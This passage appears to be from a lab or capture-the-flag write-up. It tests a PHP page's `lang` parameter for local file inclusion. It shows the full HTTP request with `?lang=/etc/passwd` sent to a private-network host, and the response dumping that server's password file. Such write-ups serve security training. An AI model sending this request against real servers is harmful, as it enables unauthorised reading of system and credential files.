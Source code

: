```http
```

The response tells us that there is a parameter named `lang` available which is used to include a `php` file.
In the following we try to exploit this by testing for a `local file inclusion` (`lfi`) 

## test for directory traversal and lfi
### request
```http
GET /secret_information/?lang=/etc/passwd HTTP/1.1
Host: 192.168.124.14
Upgrade-Insecure-Requests: 1
User-Agent: asd
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```

### response
```http
HTTP/1.1 200 OK
Date: Sun, 09 Jan 2022 15:59:23 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Length: 2191
Connection: close
Content-Type: text/html; charset=UTF-8

<title>zone transfer</title>

<h2>DNS Zone Transfer Attack</h2>

<p><a href='?lang=en.php'>english</a> <a href='?lang=es.php'>spanish</a></p>

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```